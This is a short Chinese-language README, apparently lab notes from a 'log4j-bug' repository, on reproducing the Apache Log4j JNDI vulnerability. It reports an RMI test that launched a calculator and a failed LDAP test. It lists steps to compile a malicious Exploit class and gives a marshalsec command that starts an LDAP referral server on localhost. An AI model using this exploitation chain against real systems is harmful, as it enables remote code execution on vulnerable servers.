 # log4j-bug
apache log4j 日志漏洞

RMI测试通过，调用计算器成功

RMI测试流程：
1. 启动RMIServer
2. 远程调用RMITest类

LDAP测试失败，网络搜索，失败原因可能是因为jdk版本问题
1. 手动编写恶意脚本：Exploit.java
2. javac编译java文件生成Exploit.class文件
3. 使用marshalsec.jar包启动ldap服务：
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:7777/#Exploit" 8888
3. 远程调用LogTest类



